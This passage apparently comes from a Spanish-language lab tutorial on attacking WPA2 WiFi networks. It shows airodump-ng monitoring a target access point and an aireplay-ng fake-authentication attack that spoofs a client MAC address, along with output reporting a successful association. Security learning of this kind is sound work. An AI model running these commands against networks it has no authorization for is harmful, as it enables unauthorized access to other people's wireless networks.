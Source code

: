 ```bash
❯ airodump-ng --bssid C6:BF:FD:55:E2:F7 --channel 10 wlan0mon
```

- Si nos podemos a capturar vemos que de momento no hay ningún cliente asociado. 

<p align="center">
<img src="/assets/wifi/hacking-wpa2/web11.png">
</p>

- Para autenticar a un cliente debemos proporcionar su dirección **MAC** yo por ejemplo voy a autenticar una laptop que tengo alado para practicar en este laboratorio y me se su dirección **MAC** , no le vamos a indicar paquetes si no que de manera ilimitada asta que se asocie termine.

```bash
❯ aireplay-ng -1 0 -e MiguelWifi -h 00:26:6c:1f:03:d8 wlan0mon
The interface MAC (9C:EF:D5:F9:1E:C0) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 00:26:6C:1F:03:D8
18:37:14  Waiting for beacon frame (ESSID: MiguelWifi) on channel 10
Found BSSID "C6:BF:FD:55:E2:F7" to given ESSID "MiguelWifi".

18:37:14  Sending Authentication Request (Open System)

18:37:16  Sending Authentication Request (Open System) [ACK]
18:37:16  Authentication successful
18:37:16  Sending Association Request [ACK]
18:37:16  Association successful :-) (AID: 1)
```

- Ahora vemos que como tal el cliente esta autenticado.

<p align="center">